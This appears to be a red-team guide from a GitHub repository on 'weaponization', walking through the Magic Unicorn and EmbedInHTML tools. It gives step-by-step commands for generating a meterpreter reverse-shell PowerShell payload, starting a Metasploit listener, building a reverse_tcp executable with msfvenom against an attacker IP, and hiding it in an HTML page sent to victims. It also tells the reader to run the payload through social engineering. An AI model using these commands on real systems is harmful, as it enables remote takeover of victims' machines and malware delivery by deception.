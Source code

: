# Red Teaming Squad : Weaponization

Weaponization consists of techniques that result in adversary-controlled code running on a local or remote system. Techniques that run malicious code are often paired with techniques from all other tactics to achieve broader goals, like exploring a network or stealing data. For example, an adversary might use a remote access tool to run a PowerShell script that does Remote System Discovery. Most of these techniques do not require a Tool but just access and Native Tools from the Windows Machine itself one of the reasons we want to use.


## Unicorn

Magic Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory.


### Installation

You can install "Unicorn" using following command:

```
git clone https://github.com/trustedsec/unicorn
```

<kbd>![](Weaponization/1.png)</kbd>

### Usage

Usage is simple, just run Magic Unicorn (ensure Metasploit is installed if using Metasploit methods and in the right path) and magic unicorn will automatically generate a powershell command that you need to simply cut and paste the powershell code into a command line window or through a payload delivery system. Unicorn supports your own shellcode, cobalt strike, and Metasploit.

Here we are using windows/meterpreter/reverse_tcp payload to get the reverse shell because our target system has Windows Operating System.

<kbd>![](Weaponization/2.png)</kbd>

Now this will give us two files. One is a text file named “powershell_attack.txt” which has the PowerShell code that will be run in the victim’s machine using social engineering and the other is “unicorn.rc” which is a custom Metasploit file that will automatically set all the parameters and start a listener.

<kbd>![](Weaponization/3.png)</kbd>

We need to run the Metasploit “unicorn.rc” file using ```msfconsole -r unicorn.rc``` command which will setup our listener.

<kbd>![](Weaponization/4.png)</kbd>

Now execute the powershell command through powershell using any social engineering technoque.

<kbd>![](Weaponization/5.png)</kbd>

Once the PowerShell code will be executed in the victim’s powershell command promt, you will see a meterpreter session of your victim. 

<kbd>![](Weaponization/6.png)</kbd>

For more use cases, you can use ```python unicorn.py --help``` command or you can visit this [URL](https://github.com/trustedsec/unicorn).


## EmbedInHTML

EmbedInHTML tool will take a file (any type of file) as input, encrypt it, and embed it into an HTML file as resource, along with an automatic download routine simulating a user clicking on the embedded resource. When the user browses the HTML file, the embedded file is decrypted on the fly, saved in a temporary folder, and the file is then presented to the user as if it was being downloaded from the remote site.


### Installation

You can install "Unicorn" using following command:

```
git clone https://github.com/Arno0x/EmbedInHTML
```

<kbd>![](Weaponization/7.png)</kbd>

### Usage

Here I am creating a shell.exe file using ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker's_IP> LPORT=<Listening_Port> -f exe > shell.exe``` to embed in an HTML page.

<kbd>![](Weaponization/8.png)</kbd>

Use ```python embedInHTML.py -k <Your_Secret_Key> -f <Payload_Filename> -o index.html``` command which will generate the index.html file in output directory. Now you can move the file to your /var/www/html/ directory and send the URL to victim.

<kbd>![](Weaponization/9.png)</kbd>

Whenever victim will visit the URL, your payload will be downloaded into victim's computer.

<kbd>![](Weaponization/10.png)</kbd>

For more use cases, you can use ```python embedInHTML.py help``` command or you can visit this [URL](https://github.com/Arno0x/EmbedInHTML).

